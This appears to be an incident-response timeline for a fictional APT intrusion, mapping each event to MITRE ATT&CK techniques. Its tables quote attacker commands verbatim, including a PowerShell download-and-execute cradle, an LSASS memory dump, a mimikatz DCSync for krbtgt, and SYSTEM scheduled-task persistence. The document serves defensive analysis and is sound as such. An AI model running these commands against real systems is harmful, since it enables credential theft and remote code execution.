

# Attack Timeline: Operation Silent Cascade

**Incident ID:** INC-2024-07182
**Threat Actor:** APT-SILENT-47
**Date Range:** September 16 – September 19, 2024

---

## Mermaid.js Sequence Diagram

---

## Chronological Event Log

### Day 1 — September 16, 2024

| Timestamp (UTC) | Tactic | Technique | Event Description | Source | Destination |
|---|---|---|---|---|---|
| 09:12:33 | Initial Access | T1566.001 | Spearphishing email sent from cfo-quarterly-reports@corp-finance-review.com; subject "Q3 Financial Review - Action Required"; attachment: Q3_Financial_Review.xlsm | corp-finance-review.com (198.51.100.77) | MAIL-01 (10.10.1.5) |
| 09:15:01 | Initial Access | T1566.001 | User on WORKSTATION-01 clicks malicious link in email | WORKSTATION-01 (10.10.2.100) | — |
| 10:13:45 | Execution | T1204.002 | Malicious file execution: EXCEL.EXE opens Q3_Financial_Review.xlsm (Event 4688) | WORKSTATION-01 | — |
| 10:15:22 | Execution | T1059.001 | PowerShell execution: `powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command IEX(New-Object Net.WebClient).DownloadString('http://update-service.cloud-cdn.net/payload/stage1.ps1')` | WORKSTATION-01 | — |
| 10:16:02 | Defense Evasion | T1218.011 | DLL execution via rundll32.exe (update.dll) — LOLBin technique | WORKSTATION-01 | — |
| 10:20:00 | C2 | T1071.004 | C2 channel established over TCP to 203.0.113.100:8443 | WORKSTATION-01 | 203.0.113.100:8443 |
| 10:30:15 | Persistence | T1053.005 | Scheduled task created: stage1.ps1 executes every 15 minutes as SYSTEM | WORKSTATION-01 | — |
| 10:45:10 | Persistence | T1547.001 | Registry Run key added: `Software\Microsoft\Windows\CurrentVersion\Run` via rundll32.exe | WORKSTATION-01 | — |
| 11:05:33 | Discovery | T1018 | Remote system discovery: `cmd.exe /c net view /domain:CORP` | WORKSTATION-01 | — |
| 11:07:15 | Discovery | T1087.002 | Domain account discovery: `cmd.exe /c net group "Domain Admins" /domain` | WORKSTATION-01 | — |
| 12:22:45 | Credential Access | T1003.001 | LSASS memory dump: `procdump64.exe -ma lsass.exe lsass.dmp` | WORKSTATION-01 | — |
| 13:45:00 | Lateral Movement | T1021.002 | SMB admin share connection to DC-01 using account a.mitchell (Event 4624 — Logon Type 3) | WORKSTATION-01 | DC-01 (10.10.1.10) |
| 13:46:15 | Discovery | T1087.002 | `cmd.exe /c whoami /all` executed on DC-01 (parent: service.exe) | DC-01 | — |
| 13:48:30 | Credential Access | T1003.006 | DCSync attack: `mimikatz.exe lsadump::dcsync /domain:corp.local /user:krbtgt` | DC-01 | — |
| 13:48:31 | Credential Access | T1003.006 | Event 4662: DS-Replication-Get-Changes and DS-Replication-Get-Changes-All access | DC-01 | — |
| 14:15:22 | Persistence | T1053.005 | Scheduled task `DCSyncJob` created: `schtasks.exe /create /tn DCSyncJob /tr powershell.exe -File dc_update.ps1 /sc minute /mo 30 /ru SYSTEM` | DC-01 | — |

### Day 2 — September 17, 2024

| Timestamp (UTC) | Tactic | Technique | Event Description | Source | Destination |
|---|---|---|---|---|---|
| 16:30:00 | Lateral Movement | T1021.002 | SMB connection to FILESERVER-01 (port 445) | DC-01 | FILESERVER-01 (10.10.1.20) |
| 16:35:22 | Collection | T1560.001 | Data collected from `\\FILESERVER-01\Finance`: Client_Portfolio_2024.xlsx, M&A_Due_Diligence.docx | FILESERVER-01 | — |

### Day 3 — September 18, 2024

| Timestamp (UTC) | Tactic | Technique | Event Description | Source | Destination |
|---|---|---|---|---|---|
| 16:22:05 | C2 | T1071.004 | Secondary C2 established on DC-01 to 203.0.113.50:8443 | DC-01 | 203.0.113.50:8443 |
| 16:30:00 | Exfiltration | T1048.003 | Data exfiltration initiated via DNS tunnel to data.trustedservices.online; output.zip staged | DC-01 | data.trustedservices.online (203.0.113.50) |

### Day 4 — September 19, 2024

| Timestamp (UTC) | Tactic | Technique | Event Description | Source | Destination |
|---|---|---|---|---|---|
| 04:15:05 | Exfiltration | T1048.003 | High-volume DNS TXT queries to data.trustedservices.online; Base64 chunks (~1,408 bytes per query) — e.g., ZmlsZTE, cmVwb3J0 | DC-01 | data.trustedservices.online (203.0.113.50) |
| 04:35:15 | Defense Evasion | T1070.004 | File deletion: `cmd.exe /c del /q output.zip`; deletion of mimikatz.exe | DC-01 | — |
| 04:36:12 | Exfiltration | T1105 | Final payload staging upload to staging.trustedservices.online (203.0.113.51) | DC-01 | staging.trustedservices.online (203.0.113.51) |
